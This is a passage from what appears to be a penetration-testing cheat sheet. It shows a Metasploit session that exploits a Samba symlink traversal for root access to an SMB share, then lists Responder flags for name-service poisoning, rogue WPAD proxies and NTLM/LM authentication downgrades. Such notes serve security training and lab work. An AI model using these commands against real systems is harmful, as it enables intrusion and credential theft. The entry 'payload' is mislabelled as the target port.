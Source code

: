         - `RHOSTS` The Target machine
        - `RPORT` The Target Port
        - `payload` The Target Port

- use Cases

    - SMB Root Access

        ``` bash
        $ sudo msfconsole
        msf6> use auxiliary/admin/smb/samba_symlink_traversal
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > set RHOSTS 192.168.1.159
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > exploit
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > exit
        $ smbclient //192.168.1.159/tmp
        ```

## Name Service Poisoning

- `Responder`
A Tools Used for LLMNR, NBT-NS, MDNS, DNS Poisoning

- Flags:
        
    - `-I interface`, `--interface=<nterface`: Network interface to use, you can use 'ALL' as a wildcard for all interfaces
    - `-A`, `--analyze`: Analyze mode. This option allows you to see NBT-NS, BROWSER, LLMNR requests without responding.
    - `-i IPv4`, `--ip=IPv4`: Local IP to use (only for OSX)
    - `-6 IPv6`, `--externalip6=IPv6`: Poison all requests with another IPv6 address than Responder's one.
    - `-e 10.0.0.22`, `--externalip=10.0.0.22`: Poison all requests with another IP address than Responder's one.
        
    - `-b`, `--basic`: Return a Basic HTTP authentication. Default: NTLM
    - `-d`, `--DHCP`: Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False
    - `-D`, `--DHCP-DNS`: This option will inject a DNS server in the DHCP response, otherwise a WPAD server will be added. Default: False
    - `-w`, `--wpad`: Start the WPAD rogue proxy server. Default value is False
    - `-u` `UPSTREAM_PROXY`, `--upstream-proxy=UPSTREAM_PROXY`: Upstream HTTP proxy used by the rogue WPAD Proxy for outgoing requests (format: host:port)
    - `-F`, `--ForceWpadAuth`: Force NTLM/Basic authentication on wpad.dat file retrieval. This may cause a login prompt. Default: False
    - `-P`, `--ProxyAuth`: Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn't need to be ON. This option is highly effective. Default: False
    - `-Q`, `--quiet`: Tell Responder to be quiet, disables a bunch of printing from the poisoners. Default: False
    - `--lm`: Force LM hashing downgrade for Windows XP/2003 and earlier. Default: False
    - `--disable-ess`: Force ESS downgrade. Default: False
    - `-v`, `--verbose`: Increase verbosity.
    - `--version`: version
    - `-h`, `--help`: help
